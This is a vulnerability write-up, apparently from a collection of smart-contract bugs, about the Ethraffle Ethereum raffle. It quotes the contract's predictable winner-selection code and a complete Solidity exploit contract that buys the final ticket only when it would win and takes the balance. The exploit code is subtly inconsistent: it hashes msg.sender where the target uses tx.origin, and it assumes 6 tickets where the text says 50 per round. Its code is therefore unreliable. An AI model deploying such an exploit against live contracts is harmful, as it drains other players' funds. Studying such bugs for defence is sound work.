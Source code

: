 Ethraffle
======
https://etherscan.io/address/0x9A3dA065e1100a5613dc15b594f0F6193B419E96#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            tx.origin,
            remainingGas
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, the seed of randomness, `block.coinbase` and `remainingGas`, can be accessed before the transaction, so the attacker can exploit this vulnerability to always win in the game.

Exploit
------
    contract Exploit{
    
        Ethraffle target;
        
        uint constant totalTickets = 6;
        
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, msg.sender, msg.gas);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
                
                if(winningNumber == totalTickets){          //if we can win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
